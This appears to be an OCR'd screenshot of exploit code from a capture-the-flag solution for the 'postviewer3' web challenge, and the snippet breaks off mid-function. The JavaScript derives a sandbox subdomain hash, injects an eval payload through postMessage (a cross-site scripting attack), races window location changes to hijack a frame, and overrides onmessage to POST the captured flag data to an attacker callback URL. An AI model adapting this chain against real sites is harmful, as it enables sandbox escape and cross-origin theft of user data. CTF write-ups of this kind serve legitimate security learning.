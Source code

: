 ``` html
  async function calculateHash(...strings){
    const encoder = new TextEncoder();
    const string = strings.join('');
    const hash = await crypto.subtle.digest('SHA-256', encoder.encode(string));
    return arrayToBase36(new Uint8Array(hash)).padStart(50, '0').slice(0, 50);
  }

  async function getSandboxXss() {
    return new Promise(async (resolve) => {
      const selfOrigin = window.origin
      const PRODUCT = 'postviewer'
      const data = {
        body: evaluatorHtml + 'postviewerhttps://postviewer3-web.2024.ctfcompetition.comhttps://postviewer3-web.2024.ctfcompetition.com/#',
        salt: '',
        mimeType: 'text/html; charset=utf-8'
      }

      const hash = await calculateHash(data.body, PRODUCT, selfOrigin, data.salt);
      log.innerText += 'hash:' + hash

      const url = `https://sbx-${hash}.postviewer3-web.2024.ctfcompetition.com/postviewer/shim.html?o=${encodeURIComponent(selfOrigin)}`
      const iframe = document.createElement('iframe')
      iframe.src = url
      iframe.onload = function() {
        iframe.contentWindow.postMessage(data, '*')
        setTimeout(() => {
          iframe.contentWindow.postMessage({
            eval: `fetch('${callbackUrl}/step_1_xss');
            
            let stop = false

            for(let i=1; i<=3; i++) {
              fetch('${callbackUrl}/open_' + i)

              let win = window.open("https://postviewer3-web.2024.ctfcompetition.com/")
              
              setTimeout(() => {
                setInterval(function() {
                  if (stop) return
                  win.location = "https://postviewer3-web.2024.ctfcompetition.com/#0"
                }, 2)

                setInterval(function(){
                  if (stop) return
                  win.location = "https://postviewer3-web.2024.ctfcompetition.com/#postviewer${window.origin}"
                }, 6)

                setInterval(function() {
                  if (stop) return
                  try {
                    win.frames[0].origin
                    stop = true
                    
                    fetch('${callbackUrl}/correct_sandbox')
                    win.frames[0].onmessage = function(e) {
                      fetch('${callbackUrl}/flag', { method: 'POST', body: JSON.stringify(e.data) })
                    }
                    win.frames[0].Blob = function(a) {
                      fetch('${callbackUrl}/ping')
```